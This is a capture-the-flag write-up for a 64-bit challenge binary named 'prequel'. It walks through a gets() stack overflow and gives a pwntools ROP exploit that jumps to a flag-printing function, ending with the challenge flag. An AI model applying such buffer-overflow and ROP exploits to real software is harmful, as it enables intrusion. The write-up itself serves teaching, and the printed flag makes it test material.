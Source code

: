 # Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages_debug.db` We will need to copy this to `messages.db`, because the binary will read this file.

## Binary
![](screenshots/executable.png)
We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place, and there isn't a memory segment that is writeable and executable at the same time. We also don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary
![](screenshots/running_executable.png)

The binary asks for a name, does an sql query and prints out the result.

## Decompiling
![](screenshots/decompiled.png)

When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.

![](screenshots/seccomp.png)
As you can see using execve and execveat results in terminating the process, so we can't really get a shell without exploiting the kernel itself in order to bypass the seccomp filter. However, this protection won't stop us from getting the flag.

## The vulnerability
![](screenshots/read_name.png)

The function `read_name` calls `gets` on a given buffer. It is a well-known fact that using `gets` is a bad idea, because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address. The stack canary protection written by the checksec is actually not true for the main method.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequel")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since no segment is writeable and executable at the same time we have to use return oriented programming (ROP), we can't just send a shellcode and jump there.
Fortunately, our job is quite easy because there is a function that prints out the flag using the debug `messages_debug.db` file. The function takes a number that determines the amount of the returned records.

![](screenshots/print_debug_flag.png)

We only need a pop rdi gadget now to set the first parameter in a function call, but luckily there is a function called `mary_poppins` that contains this gadget at the following memory address `0x401ff2` otherwise we could just use the tool `ROPgadget`.

```python
from pwn import *

context.binary = elf = ELF("./prequel")

p = process()

offset = 72
POP_RDI = 0x401FF2

payload = b"A" * 72 # padding
payload += p64(POP_RDI)
payload += p64(1337) # just a number that is greater than 3
payload += p64(elf.sym["print_debug_flag"]) # print_debug_flag's memory address

p.sendline(payload)
p.recvuntil(b"Prepared statement successfully\n")
flag = p.recvuntil(b"}").replace(b"\n", b"").decode() # delete line breaks

log.success("Got flag: " + flag)
```

Running the exploit on the remote server yields the following flag: `HCSC24{wh3n_y0ur_str1ngs_4r3_thE_M0stpr3c1ous_g4dG3t5}`